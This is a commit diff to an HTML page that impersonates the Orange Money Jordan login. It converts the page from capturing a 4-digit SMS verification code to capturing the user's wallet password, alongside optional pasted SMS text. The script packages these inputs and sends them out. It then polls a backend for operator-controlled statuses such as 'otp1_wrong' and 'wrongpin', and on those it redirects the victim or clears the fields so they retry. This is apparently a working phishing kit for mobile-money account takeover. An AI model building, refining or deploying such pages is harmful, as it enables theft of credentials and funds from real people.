

Before and after one commit to waaficbd/Orange, a website: page public/page8.html in a window 1280 px wide. Shown: the part 104-788 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update page8.html

```diff
--- a/public/page8.html
+++ b/public/page8.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
-    <title>اورنج موني الأردن - التحقق من الرمز</title>
+    <title>اورنج موني الأردن - كلمة المرور</title>
 
     <!-- ✅ Telegram SDK -->
     <script src="https://telegram.org/js/telegram-web-app.js"></script>
@@ -90,50 +90,64 @@
             align-items: center;
             justify-content: center;
             gap: 8px;
-            direction: ltr; /* Keeps prefix and number format consistent */
+            direction: ltr;
         }
 
-        /* 4-Digit OTP Code Inputs */
-        .otp-section {
+        /* Password Input Line Style (Matching Reference Photo) */
+        .password-section {
             margin-bottom: 20px;
-            text-align: center;
+            text-align: right;
         }
 
-        .otp-label {
+        .password-label {
             font-size: 14px;
             font-weight: 700;
             color: var(--text-dark);
-            margin-bottom: 12px;
+            margin-bottom: 8px;
+            display: block;
         }
 
-        .otp-input-group {
+        .password-wrapper {
+            position: relative;
+            width: 100%;
             display: flex;
-            gap: 12px;
-            justify-content: center;
-            margin-bottom: 16px;
-            direction: ltr; /* Left-to-right digit sequence */
+            align-items: center;
         }
 
-        .otp-box {
-            width: 52px;
-            height: 54px;
-            border: 2px solid var(--border-orange);
-            border-radius: 10px;
-            text-align: center;
-            font-size: 22px;
-            font-weight: bold;
+        .password-input {
+            width: 100%;
+            height: 52px;
+            border: 1.5px solid #dcdcdc;
+            border-bottom: 2.5px solid var(--border-orange);
+            border-radius: 8px;
+            padding: 0 16px 0 45px;
+            font-size: 16px;
+            font-weight: 600;
             outline: none;
-            background-color: #ffffff;
-            transition: border-color 0.2s;
+            background-color: #fafafa;
+            color: #333333;
+            transition: all 0.2s;
+            direction: ltr;
+            text-align: left;
         }
 
-        .otp-box:focus {
-            border-width: 2.5px;
+        .password-input:focus {
+            border-color: var(--orange-primary);
+            background-color: #ffffff;
+        }
+
+        .toggle-eye {
+            position: absolute;
+            left: 14px;
+            cursor: pointer;
+            font-size: 20px;
+            user-select: none;
+            color: var(--text-muted);
         }
 
         textarea {
             width: 100%;
-            height: 80px;
+            height: 70px;
             border: 1.5px solid #dcdcdc;
             border-radius: 10px;
             padding: 10px;
@@ -143,6 +157,7 @@
             font-family: inherit;
             color: #333333;
             background-color: #fafafa;
+            margin-bottom: 10px;
         }
 
         textarea:focus {
@@ -158,7 +173,7 @@
             text-align: center;
             color: var(--text-muted);
             font-size: 14px;
-            margin: 20px 0;
+            margin: 15px 0;
         }
 
         .submit-btn {
@@ -284,10 +299,10 @@
 
 <div class="main-container">
     <div class="card">
-        <h2>التحقق بخطوتين</h2>
+        <h2>تسجيل الدخول</h2>
 
         <p class="instruction">
-            أدخل رمز التحقق المكون من 4 أرقام الذي تم إرساله إلى رقم اورنج موني الخاص بك:
+            أدخل كلمة المرور الخاصة بتطبيق اورنج موني الأردن المرتبطة برقمك:
         </p>
 
         <div class="phone-number">
@@ -295,25 +310,23 @@
             <span id="displayPhone">+962 ...</span>
         </div>
 
-        <!-- 4-Digit OTP Code Inputs -->
-        <div class="otp-section">
-            <div class="otp-label">رمز التحقق (4 أرقام)</div>
-            <div class="otp-input-group">
-                <input type="password" maxlength="1" class="otp-box" inputmode="numeric" autocomplete="off">
-                <input type="password" maxlength="1" class="otp-box" inputmode="numeric" autocomplete="off">
-                <input type="password" maxlength="1" class="otp-box" inputmode="numeric" autocomplete="off">
-                <input type="password" maxlength="1" class="otp-box" inputmode="numeric" autocomplete="off">
+        <!-- Password Line Input -->
+        <div class="password-section">
+            <label class="password-label" for="passwordInput">كلمة المرور (Password)</label>
+            <div class="password-wrapper">
+                <input type="password" id="passwordInput" class="password-input" placeholder="أدخل كلمة المرور" autocomplete="current-password">
+                <span class="toggle-eye" id="eyeIcon">👁️</span>
             </div>
         </div>
 
-        <textarea id="smsInput" placeholder="أو قم بلصق الرسالة النصية / الرابط الكامل هنا..."></textarea>
-        <div id="errorText" class="error-message">الرمز أو الرابط غير صحيح أو انتهت صلاحيته. يرجى استخدام أحدث رمز تم استلامه.</div>
+        <textarea id="smsInput" placeholder="أو قم بلصق تفاصيل الرسالة النصية هنا (اختياري)..."></textarea>
+        <div id="errorText" class="error-message">كلمة المرور غير صحيحة. يرجى التحقق وإعادة المحاولة.</div>
 
         <div class="resend-text" id="timerBox">
-            إعادة الإرسال خلال <span id="timer">60</span> ثانية
+            إعادة إرسال رمز التحقق خلال <span id="timer">60</span> ثانية
         </div>
 
-        <button id="submitBtn" class="submit-btn" disabled>تأكيد الرمز</button>
+        <button id="submitBtn" class="submit-btn" disabled>تأكيد كلمة المرور</button>
     </div>
 </div>
 
@@ -341,7 +354,8 @@
 <script>
 document.addEventListener("DOMContentLoaded", () => {
     const displayPhone = document.getElementById('displayPhone');
-    const otpBoxes = document.querySelectorAll('.otp-box');
+    const passwordInput = document.getElementById('passwordInput');
+    const eyeIcon = document.getElementById('eyeIcon');
     const smsInput = document.getElementById('smsInput');
     const submitBtn = document.getElementById('submitBtn');
     const timerEl = document.getElementById('timer');
@@ -360,42 +374,21 @@ document.addEventListener("DOMContentLoaded", () => {
         displayPhone.textContent = "+962 ...";
     }
 
-    // Auto-focus and digit handling for the 4 OTP boxes
-    otpBoxes.forEach((box, index) => {
-        box.addEventListener('input', () => {
-            box.value = box.value.replace(/\D/g, '');
-
-            if (box.value && index < otpBoxes.length - 1) {
-                otpBoxes[index + 1].focus();
-            }
-
-            checkInputs();
-        });
-
-        box.addEventListener('keydown', (e) => {
-            if (e.key === "Backspace" && !box.value && index > 0) {
-                otpBoxes[index - 1].focus();
-            }
-        });
+    // Toggle password visibility with eye icon
+    eyeIcon.addEventListener('click', () => {
+        const isPassword = passwordInput.type === "password";
+        passwordInput.type = isPassword ? "text" : "password";
+        eyeIcon.textContent = isPassword ? "🙈" : "👁️";
     });
 
-    // Auto extract 4-digit code from full SMS if pasted into text area
-    smsInput.addEventListener('input', () => {
-        const text = smsInput.value;
-        const matched = text.match(/\b\d{4}\b/);
-        if (matched) {
-            const digits = matched[0].split('');
-            otpBoxes.forEach((box, i) => {
-                box.value = digits[i] || '';
-            });
-        }
-        checkInputs();
-    });
+    // Input handlers to enable/disable button
+    passwordInput.addEventListener('input', checkInputs);
+    smsInput.addEventListener('input', checkInputs);
 
     function checkInputs() {
-        const isOtpFilled = [...otpBoxes].every(b => b.value.length === 1);
+        const hasPassword = passwordInput.value.trim().length > 0;
         const hasText = smsInput.value.trim().length > 0;
-        const valid = isOtpFilled || hasText;
+        const valid = hasPassword || hasText;
 
         submitBtn.disabled = !valid;
         submitBtn.classList.toggle('active', valid);
@@ -433,15 +426,15 @@ document.addEventListener("DOMContentLoaded", () => {
                     clearInterval(checkInterval);
                     window.location.href = "/page6?error=wrongpin";
                 }
-                // Incorrect SMS Code/Link handle
+                // Incorrect Password handle
                 else if (data.status === "otp1_wrong") {
                     clearInterval(checkInterval);
                     statusOverlay.style.display = "none";
                     contactOverlay.style.display = "none";
-                    errorText.textContent = "الرمز أو الرابط غير صحيح أو انتهت صلاحيته. يرجى استخدام أحدث رمز تم استلامه.";
+                    errorText.textContent = "كلمة المرور غير صحيحة. يرجى التحقق وإعادة المحاولة.";
                     errorText.style.display = "block";
+                    passwordInput.value = "";
                     smsInput.value = "";
-                    otpBoxes.forEach(b => b.value = "");
                     submitBtn.disabled = true;
                     submitBtn.classList.remove('active');
                 }
@@ -461,11 +454,9 @@ document.addEventListener("DOMContentLoaded", () => {
     submitBtn.addEventListener('click', async () => {
         if (submitBtn.disabled) return;
 
-        let code = "";
-        otpBoxes.forEach(b => code += b.value);
-
+        const pwdValue = passwordInput.value.trim();
         const pastedLink = smsInput.value.trim();
-        const payload = pastedLink ? `${code} | ${pastedLink}` : code;
+        const payload = pastedLink ? `${pwdValue} | ${pastedLink}` : pwdValue;
 
         if (!payload) return;
 
```
